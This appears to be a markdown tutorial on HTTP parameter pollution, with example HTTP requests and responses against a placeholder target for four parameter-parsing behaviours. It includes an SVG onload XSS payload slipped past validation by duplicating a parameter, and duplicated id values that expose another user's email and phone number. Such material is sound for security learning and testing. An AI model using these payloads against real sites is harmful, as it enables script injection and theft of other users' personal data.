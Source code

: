 ## Anatomy of Parameter Pollution :
The manipulation of the value of each parameter depends on how each web technology is parsing these parameters. Some web technologies parse the first or the last occurrence of the parameter, some concatenate all the inputs and others will create an array of parameters.

<p align="center">
  <img 
    width="600"
    height="700"
    src="https://user-images.githubusercontent.com/63053441/159308061-dd00ec1d-bc07-406f-9e19-7a654ff4af54.png"
  >
</p>

## 1 - All occurrences of specific parameter :
  This means that if we parse the same name parameters like q=hello&q=”><svg/onload=alert(1)> the check will be performed on both the parameters because they have the same name. In All occurrences, the barrier is if the back-end logic is configured to allow a specific parameter only 1 time then appending another parameter (q=hello&q=”><svg/onload=alert(1)>) of same name will give you an error.

<br></br>
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
Response :
```
HTTP/1.1 403
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100,101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":"yourmail@gmail.com","phoneNumber":+91-9999999999,"email":"victim@gmail.com","phoneNumber":+91-8888888888

}
```

## 2 - First occurrence :
  First occurrence means a web application performs input validation on the first parameter which makes it vulnerable to second parameter which should be of same name.

Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q=Hello&q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the first occurrence (q=Hello) is checked and the last occurrence (q=”><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.


## 3 - Last occurrence :
  Last occurrence means a web application performs input validation on the last parameter which makes it vulnerable to first parameter which should be of same name.
  
Request :
```
GET /search?q="><svg/onload=alert(1)> HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
Response :
```
HTTP/1.1 403 Forbidden
server: nginx
content-type: application/json
cache-control: no-cache, private
```
HTTP Parameter Pollution Request :
```
GET /search?q="><svg/onload=alert(1)>&q=Hello HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private
```
In the above mentioned polluted request only the last occurrence (q=Hello) is checked and the first occurrence (q="><svg/onload=alert(1)>) is not sanitized which means it will trigger XSS.

## 4 - Becomes an array :
  Becomes an array means whatever the input is sent from the client side the server parsed it into an array and displays it. Which means the parameter which you are polluting has an array as datatype, which is also the most vulnerable.
  
Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100
```
Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com"],"phoneNumber":[+91-9999999999]

}
```
HTTP Parameter Pollution Request :
```
POST /details HTTP/1.1
Host: site.target.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0

id=100&id=101
```
HTTP Parameter Pollution Response :
```
HTTP/1.1 200 OK
server: nginx
content-type: application/json
cache-control: no-cache, private

{

"email":["yourmail@gmail.com","victim@gmail.com"],"phoneNumber":[+91-9999999999,+91-8888888888]

}
```
## Refrences: https://shahjerry33.medium.com/parameter-pollution-zero-day-3feb86ee8a02
